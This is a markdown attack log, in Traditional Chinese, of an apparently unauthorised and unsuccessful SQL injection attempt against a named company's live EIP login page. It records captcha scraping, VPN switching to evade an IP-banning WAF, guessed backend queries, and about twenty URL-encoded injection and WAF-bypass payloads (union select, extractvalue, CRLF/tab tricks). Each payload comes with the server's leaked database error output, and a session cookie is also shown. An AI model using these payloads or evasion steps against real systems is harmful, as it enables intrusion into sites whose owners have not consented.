 ```yaml
---
title: SQL Injection eip-nextop Failed
description: SQL Injection eip-nextop Failed
last_update:
  date: "2025-08-20T08:00:00+08:00"
---
```


## 觀察

- 目標網址 `https://www.eip.nextop.com.tw/homepage/login.php`
- 目標 querystring `?username=1&password=2&chkcode=8647`
- WAF 蠻嚴格的，403 大概 3-5 次就會被鎖 IP，需要大量切換 VPN
- 驗證碼可以從 `https://www.eip.nextop.com.tw/` 提取
- 驗證碼大概 5-10 分鐘會過期
- 驗證碼是跟 `Cookie: PHPSESSID=3e9d9b7261b10eaeab1610c7be13c995` 綁定的
- 可輸入 URL Encoded Value，PHP 在拼接 SQL 字串時，會自動先 URL Decode
- 推測原始的 SQL 語法是

```sql
-- SELECT 查詢 (login.php:19)
SELECT * FROM [emp_table] WHERE emp_id = '[username]' AND emp_pwd = '[password]' AND emp_online = 1

-- INSERT 查詢 (login.php:30)
INSERT INTO log VALUES ('[username]', '[password]', '1.1.1.1', '登入失敗', '2025-08-20 13:44:33')
```

## 測試過程

1. `?username=%27&password=%27&chkcode=3134`

```
Fatal error: Uncaught PDOException: SQLSTATE[21S01]: Insert value list does not match column list: 1136 Column count doesn't match value count at row 1 in /home/nextop/public_html/hosts/eip/include/class/PDO.php:291 Stack trace: #0 /home/nextop/public_html/hosts/eip/include/class/PDO.php(291): PDOStatement->execute() #1 /home/nextop/public_html/hosts/eip/include/class/PDO.php(70): DB->_Query('INSERT INTO log...') #2 /home/nextop/public_html/hosts/eip/include/class/PDO.php(84): DB->Execute('INSERT INTO log...') #3 /home/nextop/public_html/hosts/eip/homepage/login.php(30): DB->Insert('log', Array) #4 {main} thrown in /home/nextop/public_html/hosts/eip/include/class/PDO.php on line 291
```

2. `?username=';&password=password&chkcode=8647`

```
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ';','password','138.199.21.204','登入失敗','2025-08-20 14:25:35')' at line 1 in /home/nextop/public_html/hosts/eip/include/class/PDO.php:291 Stack trace: #0 /home/nextop/public_html/hosts/eip/include/class/PDO.php(291): PDOStatement->execute() #1 /home/nextop/public_html/hosts/eip/include/class/PDO.php(70): DB->_Query('INSERT INTO log...') #2 /home/nextop/public_html/hosts/eip/include/class/PDO.php(84): DB->Execute('INSERT INTO log...') #3 /home/nextop/public_html/hosts/eip/homepage/login.php(30): DB->Insert('log', Array) #4 {main} thrown in /home/nextop/public_html/hosts/eip/include/class/PDO.php on line 291
```

3. `?username=admin%27)%3b--%20&password=x&chkcode=3134`

```
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ');-- ' and emp_pwd = 'x' and emp_online = 1' at line 1 in /home/nextop/public_html/hosts/eip/include/class/PDO.php:45 Stack trace: #0 /home/nextop/public_html/hosts/eip/include/class/PDO.php(45): PDOStatement->execute() #1 /home/nextop/public_html/hosts/eip/homepage/login.php(19): DB->GetRow('select * from p...') #2 {main} thrown in /home/nextop/public_html/hosts/eip/include/class/PDO.php on line 45
```

4. Forbidden Payloads

- `?username=admin%27%20or%201%3d1%23&password=x&chkcode=3134`
- `?username=admin%27%20or%20%27a%27%3d%27a%27%23&password=x&chkcode=3134`
- `?username=admin%27%20or%20sleep(0)%3d0%23&password=x&chkcode=3134`
- `?username=admin%27%20and%20%27x%27%3d%27y%27%20union%20select%201,2,3%23&password=x&chkcode=3134`
- `?username=admin%27%20union%20all%20select%20null,null,null%23&password=x&chkcode=3134`
- `?username=admin%27%20or%20length(%27a%27)%3d1--%20&password=x&chkcode=3134`
- `?username=admin%27%20or%20%27%27%3d%27&password=%27%20or%20%27%27%3d%27&chkcode=3134`
- `?username=admin%27%20div%200--%20&password=x&chkcode=3134`
- `?username=admin%27%20regexp%20%27.%27--%20&password=x&chkcode=3134`
- `?username=admin%27%20xor%20false--%20&password=x&chkcode=3134`
- `?username=admin%27%20between%20%27a%27%20and%20%27z%27--%20&password=x&chkcode=3134`
- `?username=admin%27)%2b(%270&password=0%27)%23&chkcode=3134`
- `?username=admin&password=x%27%2b%270&chkcode=3134`
- `?username=admin&password=x%00&chkcode=3134`
- `?username=admin%27%0d%0aunion%0d%0aselect%0d%0a1,2,3--%0d%0a&password=x&chkcode=9732`
- `?username=admin%27%0d%0aand%0d%0a1%3d2%0d%0a--%0d%0a&password=x&chkcode=9732`
- `?username=admin%27%0d%0aand%0d%0aextractvalue(1,concat(0x7e,version(),0x7e))%0d%0a%23&password=x&chkcode=1505`
- `?username=admin%27%0d%0a%09%09and%09%091%09%09like%09%091%09%09--%09&password=x&chkcode=1505`
- `?username=admin%27%0d%0a%09%09%2b%09%09%270%27%09%09--%09&password=x&chkcode=2409`

```
Forbidden
You don't have permission to access this resource.

Additionally, a 403 Forbidden error was encountered while trying to use an ErrorDocument to handle the request.
```

5. `?username=admin%27%3b%23&password=x&chkcode=3134`

```
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ';#','x','185.107.56.222','登入失敗','2025-08-20 14:34:51')' at line 1 in /home/nextop/public_html/hosts/eip/include/class/PDO.php:291 Stack trace: #0 /home/nextop/public_html/hosts/eip/include/class/PDO.php(291): PDOStatement->execute() #1 /home/nextop/public_html/hosts/eip/include/class/PDO.php(70): DB->_Query('INSERT INTO log...') #2 /home/nextop/public_html/hosts/eip/include/class/PDO.php(84): DB->Execute('INSERT INTO log...') #3 /home/nextop/public_html/hosts/eip/homepage/login.php(30): DB->Insert('log', Array) #4 {main} thrown in /home/nextop/public_html/hosts/eip/include/class/PDO.php on line 291
```

6. `?username=admin%27%2c%27x%27%2c%27127.0.0.1%27%2c%27test%27%2c%27x%27)%3b%23&password=x&chkcode=3134`

```
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''x','127.0.0.1','test','x');#' and emp_pwd = 'x' and emp_online = 1' at line 1 in /home/nextop/public_html/hosts/eip/include/class/PDO.php:45 Stack trace: #0 /home/nextop/public_html/hosts/eip/include/class/PDO.php(45): PDOStatement->execute() #1 /home/nextop/public_html/hosts/eip/homepage/login.php(19): DB->GetRow('select * from p...') #2 {main} thrown in /home/nextop/public_html/hosts/eip/include/class/PDO.php on line 45
```

7. 帳號/密碼 錯誤,請重新輸入.

`?username=admin%5c%27&password=x&chkcode=3134`
`?username=admin%09&password=x&chkcode=7652`
`?username=admin%0a&password=x&chkcode=9146`
`?username=admin%0d%0a&password=x&chkcode=9638`

8. `?username=admin&password=x&chkcode=3134%27`

```
驗證碼 錯誤,請重新輸入.
```

9. `?username=admin%27%0d%0a&password=x&chkcode=9732`

```
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'x' and emp_online = 1' at line 2 in /home/nextop/public_html/hosts/eip/include/class/PDO.php:45 Stack trace: #0 /home/nextop/public_html/hosts/eip/include/class/PDO.php(45): PDOStatement->execute() #1 /home/nextop/public_html/hosts/eip/homepage/login.php(19): DB->GetRow('select * from p...') #2 {main} thrown in /home/nextop/public_html/hosts/eip/include/class/PDO.php on line 45
```

10. `?username=admin%27%0d%0a%23&password=x&chkcode=1505`

```
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' at line 2 in /home/nextop/public_html/hosts/eip/include/class/PDO.php:291 Stack trace: #0 /home/nextop/public_html/hosts/eip/include/class/PDO.php(291): PDOStatement->execute() #1 /home/nextop/public_html/hosts/eip/include/class/PDO.php(70): DB->_Query('INSERT INTO log...') #2 /home/nextop/public_html/hosts/eip/include/class/PDO.php(84): DB->Execute('INSERT INTO log...') #3 /home/nextop/public_html/hosts/eip/homepage/login.php(30): DB->Insert('log', Array) #4 {main} thrown in /home/nextop/public_html/hosts/eip/include/class/PDO.php on line 291
```

11. `?username=admin%27%0d%0a--%0d%0a&password=x&chkcode=1505`

```
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'x' and emp_online = 1' at line 3 in /home/nextop/public_html/hosts/eip/include/class/PDO.php:45 Stack trace: #0 /home/nextop/public_html/hosts/eip/include/class/PDO.php(45): PDOStatement->execute() #1 /home/nextop/public_html/hosts/eip/homepage/login.php(19): DB->GetRow('select * from p...') #2 {main} thrown in /home/nextop/public_html/hosts/eip/include/class/PDO.php on line 45
```

12. `?username=admin%27%0d%0a%09%09--%09&password=x&chkcode=1505`

```
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' at line 2 in /home/nextop/public_html/hosts/eip/include/class/PDO.php:291 Stack trace: #0 /home/nextop/public_html/hosts/eip/include/class/PDO.php(291): PDOStatement->execute() #1 /home/nextop/public_html/hosts/eip/include/class/PDO.php(70): DB->_Query('INSERT INTO log...') #2 /home/nextop/public_html/hosts/eip/include/class/PDO.php(84): DB->Execute('INSERT INTO log...') #3 /home/nextop/public_html/hosts/eip/homepage/login.php(30): DB->Insert('log', Array) #4 {main} thrown in /home/nextop/public_html/hosts/eip/include/class/PDO.php on line 291
```
